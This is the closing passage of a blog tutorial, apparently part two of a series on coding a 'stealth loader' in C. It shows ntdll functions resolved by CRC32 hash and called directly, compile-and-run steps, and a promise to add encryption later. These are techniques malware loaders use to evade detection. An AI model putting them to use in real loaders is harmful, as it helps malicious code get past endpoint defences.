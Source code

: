 ```c
    NtClose_t g_nt_close = (NtClose_t)p_nt_close;
    g_nt_close(h_file);

    void *p_nt_free_virtual_memory = get_proc_address_by_hash(p_ntdll, NtFreeVirtualMemory_CRC32b);
    NtFreeVirtualMemory_t g_nt_free_virtual_memory = (NtFreeVirtualMemory_t)p_nt_free_virtual_memory;
    g_nt_free_virtual_memory(((HANDLE) -1), &dll_bytes, &dll_size, MEM_RELEASE);

    return 0;
} 
```
- compilation stage
    ```c
        gcc -o sl stealth_loader.c 2>&1 | Out-Null
        // we have to run the sl.exe
        ./sl.exe
    ```
![stealth_loader](/assets/images/stealth_loader.png)
- Voila, we have reached the end of the second article in our series on coding our own loader. With each installment, it becomes more independent.

    Stay tuned for the next article, where we aim to make the loader even more independent by incorporating encryption and other modifications. Additionally, we will attempt to remove dependencies on certain libraries other than ntdll that we have covered here, and minimize reliance on other DLLs that the stealth loader currently depends on.

    I highly encourage you to dig deep and see the differences between the current loader and the upcoming versions. When you're ready for the next release, feel free to connect with me on [LinkedIn](https://www.linkedin.com/in/a-abbass-ote-257535215/) for updates and discussions.